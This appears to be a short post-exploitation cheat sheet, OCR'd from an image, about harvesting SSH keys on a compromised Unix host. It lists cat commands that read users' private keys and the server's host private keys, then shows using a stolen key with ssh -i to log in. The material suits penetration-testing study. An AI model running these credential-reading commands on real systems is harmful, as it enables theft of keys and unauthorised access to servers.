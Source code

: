 # Unix Shell

- Password and Keys - SSH Keys

```
$ cat /home/*/.ssh/authorized_keys

$ cat /home/*/.ssh/config

$ cat /home/*/.ssh/identity.pub

$ cat /home/*/.ssh/identity

$ cat /home/*/.ssh/id_rsa.pub

$ cat /home/*/.ssh/id_rsa

$ cat /home/*/.ssh/id_dsa.pub

$ cat /home/*/.ssh/id_dsa

$ cat /etc/ssh/ssh_config

$ cat /etc/ssh/sshd_config

$ cat /etc/ssh/ssh_host*

$ cat /etc/ssh/ssh_host_dsa_key.pub

$ cat /etc/ssh/ssh_host_dsa_key

$ cat /etc/ssh/ssh_host_rsa_key.pub

$ cat /etc/ssh/ssh_host_rsa_key

$ cat /etc/ssh/ssh_host_key.pub

$ cat /etc/ssh/ssh_host_key
```

Once you were able to get the SSH Keys using the chmod command with octal permissions then authenticate through the compromised server

```
$ chmod 600 ssh_key

$ ssh -i ssh_key <user>@<IP>
```